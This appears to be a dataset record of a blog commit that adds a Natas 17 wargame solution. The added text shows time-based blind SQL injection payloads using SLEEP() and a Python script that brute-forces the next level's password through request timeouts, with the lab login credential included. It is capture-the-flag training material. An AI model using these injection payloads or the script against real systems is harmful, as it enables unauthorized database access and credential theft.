

Before and after one commit to h15h4m/h15h4m.github.io, a Jekyll site: the page built from _posts/2018-04-10-natas-17-solution.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1104 px. Shown: the whole window, without its empty margins (319-959 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1913 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
updating solution

```diff
--- a/_posts/2018-04-10-natas-17-solution.markdown
+++ b/_posts/2018-04-10-natas-17-solution.markdown
@@ -57,3 +57,76 @@
 
 
 ## Solution
+
+
+Reading the source code we can find out that we have control over the username field in the SQL query. We can do a proof of concept that this blind sql injection works by using SLEEP() function; we will know it works if it took a longer time to respone.
+
+{% highlight raw %}
+natas18" and sleep(5)#
+{% endhighlight %}
+
+
+Now we can do the same sleep() technique in order to know the characters in the password. So we will send a query for querying some character in the password field, and if it exists a delay will happen, if not nothing will happen.
+
+{% highlight raw %}
+natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #
+{% endhighlight %}
+
+
+Now we can automate all of this proccess of getting natas18 password using the following python script.
+
+{% highlight python %}
+#!/usr/bin/python
+#h15h4m
+
+
+import requests
+from requests.auth import HTTPBasicAuth
+
+
+http_username = "natas17"
+http_password = "8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw"
+target =  "http://natas17.natas.labs.overthewire.org/"
+http_login=HTTPBasicAuth(http_username, http_password)
+chars_to_check = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
+password_chars_found = ''
+password = ''
+r = requests.get(target, auth=http_login)
+
+if  r.status_code != requests.codes.ok:
+    print "[-] Check Authentication"
+    exit()
+
+
+print "[!] We are in"
+
+
+
+#natas18" AND IF(password LIKE BINARY "%0%", SLEEP(100), null) #
+
+for i in chars_to_check:
+    payload = 'natas18" AND IF(password LIKE BINARY "%'+ i +'%", SLEEP(5), null) %23'
+    try:
+        r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
+    except:
+        print "[+] Timeout: Char Found " + i
+        password_chars_found += i
+
+print '[!] Found Chars ' + password_chars_found
+
+#md5 32 chars
+for i in range(32):
+    for ii in password_chars_found:
+        payload = 'natas18" AND IF(password LIKE BINARY "'+ password + ii +'%", SLEEP(5), null) %23'
+        try:
+            r = requests.get(target + "index.php?debug=1&username=" + payload, auth=http_login,timeout=1)
+        except:
+            print "[+] Timeout: Char Found " + ii
+            password += ii
+            break
+
+
+print '[!] PASSWORD = ' + password
+
+#print r.content
+{% endhighlight %}
```
